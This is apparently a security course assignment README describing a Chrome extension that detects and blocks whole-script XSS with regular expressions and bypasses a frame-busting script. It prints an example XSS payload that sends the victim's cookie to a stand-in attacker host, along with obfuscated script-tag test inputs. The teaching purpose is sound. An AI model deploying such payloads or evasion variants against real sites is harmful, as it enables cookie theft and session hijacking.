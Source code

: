 # WebSec-Browser-Extension

## Overview
The goal of this part is to help you understand how you can create a browser extension to defend against some known web application vulnerabilities. Browser extensions are small pieces of software installed in the browser to provide additional functionality to the users.

A browser extension comes with a set of functionalities. It can modify the DOM of the page you visit, modify or block a web request, access user cookies, and can execute a script in the context of the web page.

In this project, we will be creating a Chrome-based extension to detect and block a whole script XSS injection and bypass some client-side web-defense techniques.

## Background
This part involves creating a Chrome extension and using regular expressions to detect whole script XSS and bust frame-busting techniques.

### Whole Script XSS
A whole Script attack vector consists of a full JavaScript statement where an entire script is injected into the victimâ€™s page.

**Example:**
``` sh
<script>
document.location="http://attacker.com/saveCookie.php?cookie="+document.cookie;
</script>
```

To learn more about the whole script XSS, read this paper: Protection, Usability and Improvements in Reflected XSS Filters

### Frame Busting
An iframe is an HTML tag that allows embedding HTML content in a frame inside a normal HTML document.
Frame-busting is a technique that protects clients from clickjacking. It prevents web pages from being rendered inside a frame.
One method to prevent client-side clickjacking involves placing this snippet of JavaScript in each page:

```sh
<script>
if (top != self) top.location.href = location.href;
</script>
```

### Chrome Extension
The most important component of a Chrome browser extension is the manifest.json file. 
Here is a sample manifest.json file:
```sh
{
  "name": "CS6262 Extension",
  "description": "A simple extension",
  "version": "1.0",
  "permissions": [
    "tabs",
    "notifications"
  ],
  "background": {
    "scripts": ["background.js"],
    "persistent": false
  },
  "browser_action": {
    "default_title": "Does something",
    "default_icon": "icon.png",
    "default_popup": "popup.html"
  },
  "manifest_version": 2
}
```
There are various keys like browser_action, permissions, and background. You must include these keys as part the requirements of this extension.
For further information about the structure of a typical Chrome extension, refer to this link: https://developer.chrome.com/extensions/getstarted

The manifest.json file may contain other files as necessary. For instance, in the above sample, popup.html and background.js are two files included in manifest.json. This will be similar to how you will create your xss_detect.js and frame_bust.js files. The former should deals with the XSS detection and blocker parts while the latter contains bypassing the frame busting script.

For further reading, refer to https://developer.chrome.com/extensions/webRequest

### Task

Create a Google Chrome extension to:

1. Detect and block whole script XSS injection
    - The first step is detecting the Whole Script attack vectors. You should write a regular expression to catch all possible attack vectors which can be used in the input fields of a web page.
    - You can write the background JS file (as a part of the manifest.json) in such a way that it takes the URL as well as any POST data associated with the request, decodes it if necessary, and use the regular expression(s) to identify the XSS attack vectors.
    - Use webRequest and webRequestBlocking APIs. You should be working with the chrome.webRequest.onBeforeRequest.addListener function under which your whole script should be written for the detection of XSS.
2. Bypass the frame buster: https://www.prism.gatech.edu/~rgiri8/frame/frame_busted_page.html
    - For busting/bypassing the frame buster, there are two pages â€“ frame_busted_page.html and index.html under the directory: https://www.prism.gatech.edu/~rgiri8/frame.
    - Your extension (which contains frame_bust.js) should bypass the frame busting technique and frame the frame_busted_page.html page into the index.html (under frame directory) iframe.

To summarize, your task is to create an extension that blocks whole script XSS attacks and also bypasses an implemented frame busting technique as mentioned above.

If you are not familiar with browser extension development, check out the demo color changer Chrome extension in the demo-color-changer-chrome-extension folder.
Sample Inputs for XSS Detection
Below is a subset of inputs that we will test. You need to create your regular expression in such a way that all kinds of crafted attack vectors made by tweaking the script tags are detected.

### Sample examples That Should Be Blocked
```sh
<script> alert(); </script>
<<  ScRiPT   >alert("XSS");//<</ ScRiPT  >
```

### Examples That Should Pass
```sh
<script/script>
<scripting></scripting>
```
